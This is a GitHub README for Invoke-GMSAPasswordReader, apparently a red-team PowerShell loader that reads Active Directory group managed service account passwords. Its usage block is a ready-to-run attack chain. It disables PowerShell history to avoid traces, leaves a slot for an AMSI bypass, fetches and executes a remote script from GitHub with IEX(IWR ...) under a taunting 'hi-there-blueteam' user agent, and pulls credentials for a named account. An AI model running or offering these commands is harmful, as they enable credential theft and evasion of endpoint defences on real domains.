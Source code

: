 # Invoke-GMSAPasswordReader

## The .Net assembly is based on my modified fork https://github.com/ricardojba/GMSAPasswordReader.

[PowerSharpPack](https://github.com/S3cur3Th1sSh1t/PowerSharpPack) style .Net Assembly loader for the [GMSAPasswordReader](https://github.com/ricardojba/GMSAPasswordReader).

Usage:

```
Set-PSReadlineOption -HistorySaveStyle SaveNothing

<Insert-Your-AMSI-Bypass-From-AMSI.FAIL-Here>

[Net.ServicePointManager]::SecurityProtocol=[Net.SecurityProtocolType]::Tls12
# [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}

[system.net.webrequest]::defaultwebproxy = new-object system.net.webproxy('http://proxy:8080')
[system.net.webrequest]::defaultwebproxy.BypassProxyOnLocal = $true
[system.net.webrequest]::defaultwebproxy.credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials

# [system.net.webrequest]::defaultwebproxy.credentials = Get-Credential

IEX(IWR -UseBasicParsing -UserAgent "hi-there-blueteam" 'https://raw.githubusercontent.com/ricardojba/Invoke-noPac/main/Invoke-GMSAPasswordReader.ps1')

Invoke-GMSAPasswordReader -Command "--AccountName jkohler"
```

## Credits

[rvazarkar] for the original [GMSAPasswordReader](https://github.com/rvazarkar/GMSAPasswordReader).
